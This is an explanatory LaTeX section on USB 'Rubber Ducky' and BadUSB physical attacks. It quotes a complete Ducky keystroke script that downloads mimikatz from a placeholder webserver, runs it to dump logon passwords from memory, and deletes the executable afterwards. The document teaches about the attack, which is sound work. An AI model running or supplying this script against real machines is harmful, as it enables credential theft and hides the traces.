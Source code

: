 \section{"Rubber Ducky" attack}
A "Rubber Ducky" attack is neither a client or server side attack and instead is a physical attack that preys on either a person's curiosity or a person's lack of knowledge. The basis for the attack is either an infected USB thumbdrive or a specifically created USB drive. 

\subsection{Designed devices}
There are commercially created devices that are used to execute this type of attack. A common one is the Hakshop USB Rubber Ducky. It is created to make writing the attack as simple as possible so the barrier of entry is lowered. They also have a github repository that has premade attacks (https://github.com/hak5darren/USB-Rubber-Ducky). \\
\\
\begin{verbatim}
REM mimikatz ducky script to dump local wdigest passwords from memory using mimikatz (local user needs to be an administrator/have admin privs)
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<replace me with webserver ip/host>/mimikatz.exe','%TEMP%\mimikatz.exe')
DELAY 300
ENTER
DELAY 3000
STRING %TEMP%\mimikatz.exe
DELAY 300
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
DELAY 1000
STRING exit
DELAY 300
ENTER
DELAY 100
STRING del %TEMP%\mimikatz.exe
DELAY 300
ENTER
\end{verbatim}
This attack is from the payload wiki that is created for the hakshop device. It uses mimikatz and the elevated privages of a user to dump their passwords from digest. \\
\\

subsection{Infected USB Devices}
"BadUSB" is research on different USB devices that can be converted to execute these style of attacks named. These attacks require the creator to reprogram the firmware of a device. This attack is not limited to USB thumbdrive type devices.There is a list of devices that have been researched at https://opensource.srlabs.de/projects/badusb.  

